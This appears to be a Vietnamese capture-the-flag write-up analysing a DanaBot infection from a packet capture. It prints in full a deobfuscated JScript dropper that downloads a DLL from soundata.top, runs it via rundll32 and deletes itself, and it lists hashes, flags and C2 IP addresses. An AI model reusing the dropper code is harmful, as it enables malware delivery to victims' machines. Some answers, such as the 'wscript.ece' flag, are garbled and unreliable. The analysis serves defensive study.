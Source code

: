 # DanaBot

## Summary

- [Q1: What is the malicious file name used for initial access?](#q1-what-is-the-malicious-file-name-used-for-initial-access)
- [Q2: What is the sha256 hash of the file used for initial access?](#q2-what-is-the-sha256-hash-of-the-file-used-for-initial-access)
- [Q3: What is the process used to execute the malicious file?](#q3-what-is-the-process-used-to-execute-the-malicious-file)
- [Q4: What is the extension of the second malicious file used by the attacker?](#q4-what-is-the-extension-of-the-second-malicious-file-used-by-the-attacker)
- [Q5: What is the MD5 hash of the second malicious file?](#q5-what-is-the-md5-hash-of-the-second-malicious-file)
- [Q6: What is the IP address used by the attacker in initial access?](#q6-what-is-the-ip-address-used-by-the-attacker-in-initial-access)
- [Q7: What is the last malicious IP address in the PCAP that is known to be used as CnC by DanaBot?](#q7-what-is-the-last-malicious-ip-address-in-the-pcap-that-is-known-to-be-used-as-cnc-by-danabot)

---

### Q1: What is the malicious file name used for initial access?

Kiểm tra lưu lượng mạng trong pcap. Cách nhanh nhất để xác định file được mã độc được gửi qua mạng là trích xuất và kiểm tra các file.  
Kết hớp với việc phân tích lưu lượng mạng. Ta đoán được máy tính IP `10.2.14.101` kết nối tới máy `62.173.142.148` - là một máy chạy dịch vụ web.

Sau khi phân giải DNS ở máy `10.2.14.1` và máy `10.2.14.101` đã kết nối tới `62.173.142.148` để request tài nguyên.

![](images/1730135711720.png)

Nhìn thấy HTTP request ở packet `no.6` và trang được trả về ở packet `no.11` là trang `login.php`. Kèm với một tệp đính kèm tên là `allegato_708.js`

Có thể dễ dàng trích xuất nội dung file `login.php` được trả về để phân tích:

```text
File > Export Objects > HTTP > Save file login.php
```

Tuy nhiên, khi mở đọc nội dung file `login.php` thì ta thấy nội dung file đã bị làm xáo trộn. Đây là kỹ thuật **JavaScript Obfuscator**.

> JavaScript Obfuscator là một kỹ thuật được sử dụng để làm cho mã JavaScript khó đọc và khó hiểu hơn đối với con người, nhưng vẫn có thể chạy bình thường trên trình duyệt. Mục đích chính của obfuscation là bảo vệ mã nguồn khỏi bị sao chép, ngăn chặn việc sửa đổi trái phép, hoặc che giấu logic kinh doanh, nhưng nó không phải là một biện pháp bảo mật tuyệt đối.
> 
> Khi obfuscation được áp dụng, tên biến, hàm, và chuỗi trong mã JavaScript sẽ bị thay đổi, thường là bằng cách thay thế chúng bằng các ký tự không dễ đọc hoặc khó đoán. Ngoài ra, mã có thể được tổ chức lại, thêm các đoạn mã thừa để gây khó khăn cho việc phân tích và hiểu.

Sử dụng công cụ Deobfuscator [link](https://obf-io.deobfuscate.io/)

Thu được mã tường minh:

```js
// file allegato_708.js
function _0x414360(_0x5c5160) {
  var _0x119065 = '';
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(Math.floor(Math.random() * _0x5a393f));
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 = new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) + "\\" + _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptFullName);
```

Phân tích đoạn mã trên, mã là một tập lệnh được viết bằng JScript (một biến thể của JavaScript dành cho Windows Script Host), sử dụng các đối tượng COM như `ActiveXObject` và `WScript` để tải xuống và thực thi một file DLL từ một nguồn bên ngoài.  
Và qua đó có thể kết luận đây là một file mã độc, sử dụng để tải một file dll về máy và thực thi.

```text
# flag
allegato_708.js
```

---

### Q2: What is the sha256 hash of the file used for initial access?

Sử dụng sha256sum (linux) hoặc tool online để hash sha256 file `login.php` - file chứa file mã độc.

```text
# flag
847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268
```

---

### Q3: What is the process used to execute the malicious file?

Trong trường hợp này, malicious file vẫn là file `allegato_708.js` được đính kèm trong trang `login.php`.

Kiểm tra đoạn mã js trên là một đoạn mã độc được viết bằng JavaScript cho Windows Script Host (WSH). Nó thực hiện một chuỗi hành động có mục đích tải về, lưu, thực thi và sau đó xóa chính nó để tránh bị phát hiện.

Đoạn mã này được viết để chạy trong môi trường Windows Script Host (WSH), một hệ thống của Windows có thể thực thi các script như VBScript (.vbs) và JScript (.js). Do đó, chương trình thực thi mã này là Windows Script Host.

- `wscript.exe`: Thực thi script giao diện đồ họa.
- `cscript.exe`: Chạy với giao diện dòng lệnh.

Trong trường hợp này sẽ là `wscript.ece`

```text
# flag
wscript.ece
```

---

### Q4: What is the extension of the second malicious file used by the attacker?

Trong đoạn mã độc js trên thì file được tải về thực thi là file `resources.dll`:

```js
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
```

```text
# flag
dll
```

---

### Q5: What is the MD5 hash of the second malicious file?

Có thể export file dll được gửi qua mạng:

> File > Export Objects > HTTP > resources.dll

```text
# flag
e758e07113016aca55d9eda2b0ffeebe
```

---

### Q6: What is the IP address used by the attacker in initial access?

Sử dụng đoạn hash file dll trên và tìm kiếm trên [virustotal](https://www.virustotal.com/gui/)

![](images/1730139849169.png)

Ở tab `Behavior` ta thấy các IP Trafic mà chương trình kết nối tới:

![](images/1730140344220.png)

Trong đó có IP `62.173.142.148` là Ip máy nạn nhân truy cập và chạy file `allegato_708.js`. Như vậy có thể kết luận đây là IP attacker.

```text
# flag
62.173.142.148
```

---

### Q7: What is the last malicious IP address in the PCAP that is known to be used as CnC by DanaBot?

Có 2 cách làm ở phần này, ở mức độ cơ bản có thể tìm kiếm thông tin về malware Danabot. Nâng cao hơn là phân tích file resources.dll kết hợp với lưu lượng mạng trong file pcap để đưa ra kết luận.

Trong trường hợp của bài lab, có thể tham khảo các IOC sẵn có về malware Danabot để có câu trả lời.

[IOC](https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2024-02-14-IOCs-from-Danabot-infection.txt)

```tetx
DANABOT C2 TRAFFIC:

- 62.173.146[.]41 port 443 - attempted TCP connections: SYN from client, RST from server
- 91.201.67[.]85 port 443 - encoded/encrypted TCP traffic, only one TCP stream
- 195.133.88[.]98 port 443 - encoded/encrypted TCP traffic, consistently used as Danabot C2
```

Dựa theo thông tin IOC, ta thấy có 3 IP C2 của malware.

Tìm kiếm trong file pcap:

```text
ip.addr == 62.173.146.41 || ip.addr == 91.201.67.85 || ip.addr == 195.133.88.98
```

![](images/1730145074126.png)

```text
# flag
91.201.67.85
```
